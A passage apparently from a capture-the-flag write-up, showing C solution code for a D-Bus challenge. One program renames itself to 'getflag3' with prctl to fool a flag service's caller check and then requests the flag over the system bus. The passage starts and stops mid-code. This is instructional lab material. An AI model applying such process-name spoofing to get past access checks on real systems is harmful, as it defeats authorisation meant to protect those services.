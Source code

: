 ```C
        g_free(flag);
        g_variant_unref(result);
    } else {
        g_printerr("Error calling D-Bus method %s: %s\n", METHOD, error->message);
        g_error_free(error);
    }

    g_object_unref(fd_list);
    close(pipe_fds[0]);
    g_object_unref(connection);
    return 0;
}
```

### Comm Say Maybe

```C
#define _GNU_SOURCE
#include <gio/gio.h>
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/prctl.h>

#define DEST "cn.edu.ustc.lug.hack.FlagService"
#define OBJECT_PATH "/cn/edu/ustc/lug/hack/FlagService"
#define METHOD "GetFlag3"
#define INTERFACE "cn.edu.ustc.lug.hack.FlagService"

int main() {
    if (prctl(PR_SET_NAME, "getflag3", 0, 0, 0) != 0) {
        perror("Failed to set process name");
        return EXIT_FAILURE;
    }

    GError *error = NULL;
    GDBusConnection *connection;
    GVariant *result;

    connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
    if (!connection) {
        g_printerr("Failed to connect to the system bus: %s\n", error->message);
        g_error_free(error);
        return EXIT_FAILURE;
    }

    result = g_dbus_connection_call_sync(
        connection,
        DEST,
        OBJECT_PATH,
        INTERFACE,
        METHOD,
        NULL, 
        G_VARIANT_TYPE("(s)"),
        G_DBUS_CALL_FLAGS_NONE,
        -1,
        NULL,
        &error
    );

    if (result) {
        gchar *flag;
        g_variant_get(result, "(s)", &flag);
```
